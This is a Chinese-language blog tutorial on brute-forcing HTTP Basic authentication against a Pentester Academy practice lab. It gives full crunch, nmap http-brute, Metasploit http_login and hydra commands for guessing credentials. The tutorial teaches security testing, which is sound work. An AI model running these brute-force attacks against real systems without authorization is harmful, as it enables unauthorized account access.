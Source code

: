 ```yaml
---
layout:     post
title:      暴力破解HTTP身份验证
subtitle:   
date:       2020-01-28
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - HTTP Basic Authentication
---
```


参考:[Bypass HTTP Basic Authentication with Nmap and Metasploit](https://www.kamranmohsin.com/2017/02/bypass-http-basic-authentication-nmap-metasploit/)

# HTTP身份验证介绍

[HTTP身份验证](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Authentication)是在请求特定web资源时提供用户名和密码的一种方法。<br>
客户端以未加密的base64编码文本的形式发送用户名和密码。

当HTTP接收到对受保护资源的匿名请求时，它可以使用401(拒绝访问)状态码拒绝请求，从而强制使用基本身份验证。

```
HTTP/1.1 401 Access Denied
WWW-Authenticate: Basic realm="Server Results"
Content-Length: 0
```

`WWW-Authenticate` 中的单词 `Basic` 表示用户必须使用Basic身份验证方法来访问受保护的资源。<br>
可以将领域设置为描述特定资源中的安全区域的任何值。

```
GET /protectedfiles/ HTTP/1.1
Host: www.kamranmohsin.com
Authorization: Basic adsadWNoOmY=
```

当成功尝试时，HTTP状态变为 200 OK. `adsadWNoOmY=` 是`basic64`编码版本的用户名和密码。

# 用Nmap绕过HTTP身份验证

绕过可以通过 [Nmap](https://nmap.org/) 来完成. Nmap是一款安全扫描器,它一般用于发现计算机网络上的主机和服务. <br>
Nmap附带了130多个NSE脚本，可以帮助发现网络中几乎所有可能的信息.

想要动手练习,请点击[这里](https://pentesteracademylab.appspot.com/lab/webapp/basicauth). 在链接中提供了绕过身份验证的提示.<br>
对于用户名和密码，在Kali Linux中创建两个单独的文件。我先创建一个目录。<br>
```
mkdir demo
cd demo
vi users.txt
```
将可能的用户名nick, admin写入,users.txt里面保存.当然你也可用网上别人整理好的比如[SecLists](https://github.com/dm116/SecLists).<br>

让我们做一个密码文件，根据提示也就是5个字符，只使用a,s,d小写。密码例子asddd, aassd, ssdaa等。<br>

```
crunch 5 5 asd > pass.txt
```
Crunch命令有助于为蛮力强制进行组合。紧随其后的是5个包含asd的最小或最大字符,结果的组合被保存到pass.txt文件中.

现在使用nmap http-brute命令绕过http基本身份验证,下面是命令:
```
nmap -p 80 --script http-brute --script-args 'http-brute.hostname=pentesteracademy
lab.appspot.com, http-brute.method=POST, http-brute.path=/path/webapp/basicauth, 
userdb=/root/demo/users.txt, passdb=/root/demo/pass.txt' -n -v pentesteracademy
lab.appspot.com
```
我们正在检查端口 `80`，主机名(`http-brute.hostname`)应该是你绕过认证的站点。<br>
`方法`和`路径`应该通过查看登录页面的源页面进行确定。<br>
应该给出`users.txt`和`pass.txt`的完整路径。`-n`表示没有dns, `-v` 表示详细模式,最后要写出网站的名称。<br>

# 用Nmap绕过HTTP身份验证

[Metasploit](https://www.metasploit.com/)有助于发现安全问题，验证漏洞缓解&管理安全评估.<br>

命令如下:<br>
```
msfconsole
```
进入 `msf >` 后<br>
```
search http_login
use auxiliary/scanner/http/http_login
```
进入 `msf5 auxiliary(scanner/http/http_login) >` 后<br>
```
show options
set AUTH_URI /lab/webapp/basicauth
set BLANK_PASSWORDS false
set PASS_FILE /root/demo/pass.txt
set REQUESTTYPE POST
set RHOSTS  pentesteracademylay.appspot.com
set STOP_ON_SUCCESS true
set THREADS 20
set USERNAME admin
set VHOST pentesteracademylay.appspot.com
set USER_FILE ''
set USER_AS_PASS false
set USERPASS_FILE ''
run
```
运行命令后，几分钟内您将获得密码aaddd。<br>
如果在不知道 USERNAME 的情况下需要设置 `USER_FILE`, 上面 `set USER_FILE ''`是设置为空的意思.<br>

# hydra暴力破解HTTP身份验证
```
hydra -L /root/demo/users.txt -P /root/demo/pass.txt http-post://pentesteracademylab.appspot.com/lab/webapp/basicauth
```
hydra使用参考 [hydra使用介绍](https://dm116.github.io/2020/01/27/hydra/)

